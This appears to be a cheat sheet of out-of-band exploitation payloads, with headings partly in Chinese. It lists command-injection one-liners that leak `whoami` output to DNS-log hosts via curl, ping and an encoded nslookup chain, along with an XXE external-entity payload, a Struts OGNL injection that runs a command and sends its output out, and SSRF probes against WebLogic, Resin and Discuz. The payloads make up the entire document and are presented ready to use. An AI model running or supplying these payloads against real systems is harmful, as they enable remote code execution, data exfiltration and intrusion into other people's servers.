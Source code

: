    #### 命令执行
	>curl http://0ox095.ceye.io/`whoami`
	>ping `whoami`.b182oj.ceye.io
	>ping %CD%.lfofz7.dnslog.cn 
	&
	cmd /v /c "whoami > temp && certutil -encode temp temp2 && findstr /L /V "CERTIFICATE" temp2 > temp3 && set /p MYVAR=< temp3 && set FINAL=!MYVAR!.xxx.ceye.io && nslookup !FINAL!"
 #### XXE
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE root [
	<!ENTITY % remote SYSTEM "http://b182oj.ceye.io/xxe_test">
	%remote;]>
	<root/>
 #### Struts
	xx.action?redirect:http://b182oj.ceye.io/%25{3*4}
	xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
 #### weblogic
	/uddiexplorer/SearchPublicRegistries.jsp?operator=http://b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
 #### Resin
	xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://b182oj.ceye.io/ssrf
 #### Discuz
	/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo